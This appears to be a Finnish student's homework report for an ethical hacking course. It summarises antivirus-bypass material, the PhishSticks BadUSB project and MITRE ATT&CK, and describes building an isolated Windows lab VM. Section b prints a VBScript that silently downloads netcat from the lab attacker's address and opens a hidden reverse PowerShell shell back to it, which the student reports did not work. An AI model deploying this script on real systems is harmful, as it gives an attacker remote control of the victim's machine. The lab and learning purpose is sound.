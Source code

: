 # h6 Attaaack
## x) Lue/katso/kuuntele ja tiivistä
 Yehoshua and Kosayev 2021: Antivirus Bypass Techniques, luku: Chapter 1: Introduction to the Security Landscape:

Erilaiset haittaohjelmat, niiden luokkittelu päätarkoituksien mukaan.

Suojautuminen: Virustorjuntaohjelmat. Päätelaitteen havaitseminen ja toiminta (EDR = endpoint detection and response). Palomuuri. Tunkeutumisen havaitsemis ja esto ohjelmat (IDS/IPS = Intrusion detection/prevention system). Tietovuodonestojärjestelmä (DLP = Data Leak Prevention)

Kommunikaatio kohteen ja komento&hallintapalvelimen välillä reverse tai bind shellillä.

PhishSticks youtube: Flipper zeron badusb payloadin avulla reverse shell kohde koneeseen. Muut demo videot kiristysohjelmasta ja digisparkista.

PhishSticks:

- Viikko 39. Erilähteiden avulla aluksi testi skiptien löytäminen ja tekeminen sekä python kiristysohjelman teko.
- Viikko 40. Suomalainen näppämistöasetus digisparkin keyloggeriin. Python-kiritysohjelman muuntaminen suoritettavaksi tiedostoksi. 
- Viikko 41. Yhden rivin payload -> digisparkin nopeampi suoritus. Reverse shelli ja kiristysohjelma melkein valmiina.
- Viikko 43. Keyloggerin ja kiritytohjelman kehittäminen. Alustan vaihto windows -> linux ongelmien ratkaisuna. Kirjatut tiedot spostin kautta hyökkääjälle vai HTTP POST kautta?
- Viikko 44. Demoja
- Viikko 47. Suojaustoimenpiteet: Poista PowerShell käytöstä käyttäjältä. Estä PowerShell windowsin palomuurilla. Poista windows Run käytöstä käyttäjältä. Lunnasohjelmasuojaus windows defenferistä. Irrotettavien laitteiden poistaminen käytöstä. 
- Viikko 48. Hyvä esitys oli.

MITRE ATT&CK

- Taktiikat: Hyökkääjän tavoite.
- Tekniikat: Miten hyökkääjä saavuttaa tavoitteen. 
- Alitekniikat: Yksityiskohtaisemmat kuvaukset, miten tekniikoita voidaan käyttää.

MITRE Att&ck Enterprise Matrix

- Execution: Serverless Execution(palvelimeton suorittaminen): Hyökkääjät voivat väärinkäyttää palveluntarjoajien tarjoamia palvelimettomia palveluita suorittaakseen haitallista koodia pilviympäristöissä. 
- Persistence: Modify Authentication Process(tunnistautumisprosessin muuttaminen): Hyökkääjät voivat muokata tunnistautumismekanismeja ja -prosesseja päästäkseen käsiksi käyttäjätunnuksiin tai mahdollistaakseen muutoin perustelemattoman pääsyn tileihin. Tähän kohtaan on listattu monia alitekniikoita, kuten password filter DLL, Multi-factor authentication jne.

## a) The OS pwns you. Asenna Windows virtuaalikoneeseen samaan verkkoon hyökkäyskoneen kanssa. Kokeile, että saat koneen irrotettua Internetistä.
Ensiksi windows 10 asennustiedoston lataaminen https://www.microsoft.com/en-us/evalcenter/download-windows-10-enterprise. Sen jälkeen lisäsin sen virtual box alustalle.

Lisäsin uuden virtuaalikoneen virtual boxiin paimalla 'New'. Annoin sille haluamani nimen. Valitsin oikean tyypin ja version eli windows 10 ja 'Next'.
![Alt text](/H6Attaaack/kuvat/h6.a1.png)

Muistin ja prosessorien asettaminen

![Alt text](/H6Attaaack/kuvat/h6.a2.png)

Tallennustilan asettaminen ja 'finish'

![Alt text](/H6Attaaack/kuvat/h6.a3.png)

Sen jälkeen avasin virtuaalikoneen ja lisäsin siihen ladatun asennustiedoston. Windows setup aukesi ja perus setuppaaminen omien tarpeiden mukaan kieli, näppäimistö jne. 

![Alt text](/H6Attaaack/kuvat/h6.a4.png)

Kun aukeaa windowsin setup 'Which type of installation do you want?' valitsin 'Custom...'. Sen jälkeen lisää alkuasetuksia ja windows saadaan käyttöön.

![Alt text](/H6Attaaack/kuvat/h6.a6.png)

Muutamalla luodun windows virtuaalikoneen virtual boxin 'network' asetuksia seuraavasti saadaan hyökkääjän ja kohteen välille omaverkko. Pitää valita se niminen 'Host-only adapter', jossa hyökkäävä kone on kiinni.

![Alt text](/H6Attaaack/kuvat/h6.a7.png)

Nyt windows kone on irroitettu internetistä, koska sillä on vain 'Host-only adapter' käytössä.

![Alt text](/H6Attaaack/kuvat/h6.a8.png)

## b) Trustme.lnk. Kokeile PhishSticksin revshell vihamielistä tiedostoa, joka avaa käänteisen shellin hyökkääjän koneelle. Selitä, mitä tapahtuu ja miksi. Testaa, että pysyt antamaan kohdekoneelle komentoja reverse shellin kautta.
En saa toimimaan. Revsh.vsb sisältö:

    Set objShell = CreateObject("Wscript.Shell")
    ' Download netcat from attacker IP
    downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.101/nc64.exe', '%TEMP%\nc64.exe')"""
    objShell.Run downloadCmd, 0, True
    
    ' Start reverse shell
    execCmd = "cmd /c powershell -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '192.168.56.101', '9001', '-e', 'powershell' -WindowStyle Hidden"""
    objShell.Run execCmd, 0, True

    Set objShell = Nothing

![Alt text](/H6Attaaack/kuvat/h6.b1.png)
![Alt text](/H6Attaaack/kuvat/h6.b2.png)

## d) PageRank. Laita linkki raporttiisi [kurssisivun](https://terokarvinen.com/2023/eettinen-hakkerointi-2023/) kommentiksi.




## lähteet
https://terokarvinen.com/2023/eettinen-hakkerointi-2023/

https://www.youtube.com/@phishsticks_pentest/videos

https://github.com/therealhalonen/PhishSticks/tree/master

https://attack.mitre.org/
